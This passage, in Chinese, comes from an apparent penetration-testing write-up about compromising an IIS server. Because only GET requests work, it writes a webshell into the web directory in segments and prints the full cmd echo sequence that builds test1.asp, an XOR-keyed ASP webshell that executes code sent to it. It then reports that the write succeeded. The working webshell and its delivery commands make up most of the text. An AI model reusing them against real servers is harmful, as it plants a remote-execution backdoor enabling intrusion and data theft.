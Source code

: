 那就直接往 IIS 的 Web 应用目录写入 webshell 就好了，因为只支持 GET 请求，URL 有长度限制，因此需要通过追加文件的方式分段写入，可以一行一行写，也可以通过写入 base64 编码的 webshell 减少追加写入的次数，然后用 certutil 解码。  

```bash
cmd /c echo ^<% > D:\\release\\***\\***\\test1.asp
cmd /c echo Response.CharSet = "UTF-8" >> D:\\release\\***\\***\\test1.asp
cmd /c echo k="e45e329feb5d925b" >> D:\\release\\***\\***\\test1.asp
cmd /c echo Session("k")=k >> D:\\release\\***\\***\\test1.asp
cmd /c echo size=Request.TotalBytes >> D:\\release\\***\\***\\test1.asp
cmd /c echo content=Request.BinaryRead(size) >> D:\\release\\***\\***\\test1.asp
cmd /c echo For i=1 To size >> D:\\release\\***\\***\\test1.asp
cmd /c echo result=result&Chr(ascb(midb(content,i,1)) Xor Asc(Mid(k,(i and 15)+1,1))) >> D:\\release\\***\\***\\test1.asp
cmd /c echo Next >> D:\\release\\***\\***\\test1.asp
cmd /c echo execute(result) >> D:\\release\\***\\***\\test1.asp
cmd /c echo %^> >> D:\\release\\***\\***\\test1.asp
```

成功写入 webshell。  

![图片](assets/1706513706-731bf9d759c7770c788b3d8603d3016b.png)
